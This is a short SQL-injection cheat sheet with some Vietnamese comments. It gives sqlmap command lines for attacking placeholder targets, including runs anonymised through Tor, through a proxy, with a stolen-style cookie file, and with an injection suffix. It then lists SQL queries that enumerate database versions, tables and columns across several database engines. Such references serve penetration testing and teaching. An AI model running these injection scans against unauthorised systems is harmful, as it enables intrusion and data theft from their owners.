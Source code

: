 ### Using TOR with SQLmap

```powershell
sqlmap -u "http://www.target.com" --tor --tor-type=SOCKS5 --time-sec 11 --check-tor --level=5 --risk=3 --threads=5
```

### Using a proxy with SQLmap

```powershell
sqlmap -u "http://www.target.com" --proxy="http://127.0.0.1:8080"
```

### Using Chrome cookie and a Proxy

```powershell
sqlmap -u "https://test.com/index.php?id=99" --load-cookie=/media/truecrypt1/TI/cookie.txt --proxy "http://127.0.0.1:8080"  -f  --time-sec 15 --level 3
```

### Using suffix to tamper the injection

```powershell
python sqlmap.py -u "http://example.com/?id=1"  -p id --suffix="-- "
```



<h2>Database</h2>

<h4>Version</h4>

```sql
Oracle: 
    SELECT BANNER FROM v$version
Microsoft: 
    SELECT @@version
PostgreSQL:
    SELECT version()
Mysql:
    SELECT @@version
SQlite:
    SELECT sqlite_version();
```
<h4>Tables, columns</h4>

```sql
Oracle:
    SELECT null FROM dual
    SELECT table_name FROM all_tables
    SELECT column_name FROM all_tab_columns
Mysql:
    SELECT SCHEMA_NAME from SCHEMATA; /*Kiệt kê databases*/
    SELECT column_name FROM information_schema.columns;
    SELECT table_name FROM information_schema.tables;
    SELECT column_name from information_schema.columns WHERE TABLE_NAME='name of table';
Sqlite:
    -- Liệt kê các bảng 
    select tbl_name as table_name from sqlite_schema;
    select name from sqlite_master where type='table';
    -- Liệt kê tất cả các cột (bao gồm các thuộc tính)
    pragma table_info('TableName');
    select * from pragma_table_info('TableName');
    -- liệt kê ra các cột (chỉ liệt kê ra tên cột, không bao gồm thuộc tính)
    SELECT name FROM pragma_table_info('TableName');
```
